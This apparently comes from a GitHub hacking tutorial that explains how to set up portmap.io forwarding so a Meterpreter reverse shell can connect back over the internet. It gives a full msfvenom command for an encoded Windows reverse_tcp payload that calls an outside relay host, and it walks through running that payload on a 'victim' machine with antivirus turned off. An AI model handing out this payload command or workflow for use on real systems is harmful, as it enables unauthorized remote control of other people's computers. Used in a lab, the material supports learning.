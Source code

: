 # The easier way to hack over the internet!

I learnt about this cool service called [portmap.io](https://portmap.io) back in 2018 when I was starting with hacking and wanted something that would be really easy to setup for getting a reverse shell over the internet! Instead of creating your own VPS, or setting up a cloud proxy server to forward traffic, or even a openvpn server by going through a lot of PITA, you can use [portmap.io](https://portmap.io) to easily set up your portforwarding and get going with learning hacking for free!! I think its great of [portmap.io](https://portmap.io) for providing such an awesome service for free! So, without wasting your time and mine, lets get started.

***

## The less fun part

After you register on [portmap.io](https://portmap.io), you'll land on a page like this:-

![image](https://user-images.githubusercontent.com/86168235/128927051-5bbeb967-bb3a-4e75-8fd3-76713f9b1958.png)

**Note**:- If for some reason you didn't land on this page, then you can click on `CONFIGURATIONS` at the top to reach this page.

Click, on the **create new configuration** button. On the next page, you can set any `Name` you want. Keep the `Type` to openvpn and change the protocol to **tcp**(you can use udp too but you've to configure it alike). You can write anything in the `Comment` box. Next, click on `Generate` and then click on `Download` to download the `.ovpn` file. Take a note of the **openvpn** command mentioned, we will use it later.

![image](https://user-images.githubusercontent.com/86168235/128927119-002f539a-9947-49e7-920c-e84448e04726.png)

***

**Next**, click on `MAPPING RULES` at the top of the webpage. On the next page, click on `CREATE NEW RULE`. Next, you just need to add a random port to forward traffic to your PC. Here I added **1337**. Then click on create. 

![image](https://user-images.githubusercontent.com/86168235/128927397-9dfcf604-caf5-4bf7-9e83-9b5c66d14d8e.png)

**Note**:- You can also use "http/https" protocol(**https** requires subscription). But for the sake of simplicity I used **tcp** here.

Finally, take a note of the **hostname** and **port**, which in my case is `random123-33188.portmap.io` and `33188`.

![image](https://user-images.githubusercontent.com/86168235/128928265-9863f4a9-374a-4ed8-ac4d-f0c6a34c6e2c.png)


***

## The fun part!

On **kali linux**(I use kali, dunno about you🙂), use **msfvenom** to create a payload as follows:-
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=random123-33188.portmap.io LPORT=33188 -f exe -o portmap.exe -e x64/xor_dynamic
```

![image](https://user-images.githubusercontent.com/86168235/128928364-dc24c900-172a-44da-84e5-cd263ff5e2a0.png)

Here the LHOST and LPORT are the **hostname** and **port** you took note from [portmap.io](https://portmap.io).

**Next**, start the **openvpn** connection to forward traffic to your machine(use the openvpn command you noticed earlier).

![image](https://user-images.githubusercontent.com/86168235/128928557-2807cd59-150c-4f4d-8c1f-40d5cbd9d92c.png)

Take a note of the ip address of the `tun0`(or your openvpn tunnel interface).

![image](https://user-images.githubusercontent.com/86168235/128928630-2da73f20-5c23-4ac9-8b2e-a99ac0da8c01.png)

Now, set up a meterpreter listener as follows:-

![image](https://user-images.githubusercontent.com/86168235/128928689-042d19fd-3c44-4f20-8821-366d2e06df9a.png)

Here, lhost is tun0 interface ip, lport is the port we set on [portmap.io](https://portmap.io), payload is what we choose with **msfvenom**. 

**Next**, transfer the `portmap.exe` exploit to victim windows machine and execute it. Here, I've disabled **AV** before running the executable.

![image](https://user-images.githubusercontent.com/86168235/128928898-4d6bc6d9-b048-4eeb-9d1c-29a09168d32c.png)


Next, you'll see what I call **the love of life**😍🥰, the classic **meterpreter reverse shell!!!**

![image](https://user-images.githubusercontent.com/86168235/128928966-8bf50f23-9de5-4706-ba34-0325a7f859c3.png)


**Note**:- Here, my kali machine is connected to my home network and the windows machine is connected to my Mobile hotspot.



# Credits

Thanks to [portmap.io](https://portmap.io), for creating such an awesome service. Their free tier provides limited functionality and you can create only one mapping rule. If you need more, then consider subscribing. Happy hacking!




